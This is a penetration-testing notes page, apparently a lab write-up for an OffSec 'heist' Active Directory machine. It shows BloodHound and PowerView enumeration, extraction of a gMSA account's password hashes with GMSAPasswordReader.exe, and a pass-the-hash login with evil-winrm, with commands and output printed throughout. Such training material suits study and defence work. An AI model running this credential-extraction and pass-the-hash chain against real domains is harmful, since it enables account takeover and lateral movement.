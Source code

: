 # Enumerating Objects

## Example

In this page we'll cover some enumeration TTP's that we can use to further understand the active directory objects in the domain we're working with.

## Reviewing Bloodhound

Once we load data into bloodhound we can get a map of the users on the domain we want to target, this often gives us valuable information on intersting objects we want to enumerate further

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This shows that the **svc\_apache** service account can read the GMSA password, which means that the **svc\_apache** account is a Group Managed Service Account (gMSA).

<mark style="color:red;">**NOTE:**</mark> Group managed service accounts (gMSAs) are managed domain accounts that you use to help secure services. Password management for that account is handled by the Windows operating system.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

### Confirm GMSA is enabled

We can confirm that the user svc\_apache service account has GMSA enabled.

```powershell
PS C:\Users\enox> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :

```

The following command provides info about which groups have permissions to retrieve the password for the svc\_apache service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      :




```

We see under <mark style="color:yellow;">**PrincipalsAllowedToRetrieveManagedPassword**</mark> we see the group "Web Admins" let's enumerate this group further.

### Review Domain Group "Web Admins" PowerView

Let's find the domain members in "Web Admins" with PowerView

```powershell
PS> Get-DomainGroupMember "Web Admins"



GroupDomain             : heist.offsec
GroupName               : Web Admins
GroupDistinguishedName  : CN=Web Admins,CN=Users,DC=heist,DC=offsec
MemberDomain            : heist.offsec
MemberName              : enox
MemberDistinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
MemberObjectClass       : user
MemberSID               : S-1-5-21-537427935-490066102-1511301751-1103



```

We can see that our current user: "enox" can extract passwords! This means once  we extract we can login to apache\_svc.



### **Extracting the gMSA Password Using GMSAPasswordReader.exe**&#x20;

We can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to retrieve the gMSA password with our current user.

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the nt hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
